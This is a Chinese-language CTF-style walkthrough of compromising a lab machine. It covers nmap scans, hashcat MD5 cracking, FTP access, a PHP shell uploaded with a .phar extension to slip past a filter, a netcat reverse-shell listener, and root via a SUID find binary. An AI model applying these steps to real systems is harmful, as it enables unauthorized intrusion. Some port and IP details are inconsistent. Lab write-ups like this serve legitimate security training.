 # 服务扫描

## 使用 nmap 进行基础扫描

扫描所执行的命令，执行结果如下

```
sudo nmap -sn 10.10.10.0/24

sudo nmap --min-rate 10000 -p- 10.10.10.31   

sudo nmap -sC -sT -sV -p22,80 10.10.10.31 

sudo nmap --script=vuln -p22,80 10.10.10.31 
```

![[Pasted image 20250524173935.png]]

21 端口开放了 ftp 服务，在找到账号密码后可进行 登入 ，
靶机还开放了 smb 服务，可进行更详细的 smb 扫描，

查看 80 端口，是 Ubuntu 的默认界面

![[Pasted image 20250524174155.png]]

查看源代码发现串 md5

![[Pasted image 20250524174246.png]]

![[Pasted image 20250524174321.png]]

使用 hashcat 破解

```
sudo hashcat -m 0 -a 0 Hash/md5.txt /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250524174820.png]]

![[Pasted image 20250524174921.png]]

使用该字符串尝试进行 ftp 登入，因为没有密码，使用账号密码都使用 hostinger

```
ftp 10.10.10.6
```

![[Pasted image 20250524175222.png]]

binary 进入 二进制 模式

```
binary
```

获取文件

```
ls -liah

cd files

get hint.txt

exit
```

![[Pasted image 20250524175401.png]]

查看下载下来的 txt 文件

![[Pasted image 20250524175511.png]]

你需要跟随 'hostinger' 两个 base64 编码解密如下

![[Pasted image 20250524181324.png]]

![[Pasted image 20250524181345.png]]

进入给定的链接，将参数给上

![[Pasted image 20250524181711.png]]

根据提示访问 venom.box

![[Pasted image 20250524181547.png]]

登入 dora

![[Pasted image 20250524181752.png]]

点击齿轮，进入后台

![[Pasted image 20250524181839.png]]

找到文件上传页面，上传一个 php 漏洞

![[Pasted image 20250524181912.png]]

php 被过滤了，尝试不常见的 php 后缀，发现 phar 没被过滤

# Linux 提权

kali 建立 监听

```
sudo nc -lvnp 4444
```

![[Pasted image 20250524182056.png]]
![[Pasted image 20250524182132.png]]

查看 passwd ，寻找 拥有 bash 环境 的用户

![[Pasted image 20250524182255.png]]

切换成 hostinger 用户

```
su hostinger
```

在 /var/www/html/subrion/backup 下发现了一个密码

![[Pasted image 20250524182706.png]]

尝试切换为 nathan 用户

查看具有 s 位 的可执行文件

```
find / -perm -u=s -type f 2>/dev/null
```

![[Pasted image 20250524182847.png]]

使用 find 提权

```
sudo install -m =xs $(which find) .

./find . -exec /bin/bash -p \; -quit
```

![[Pasted image 20250524183056.png]]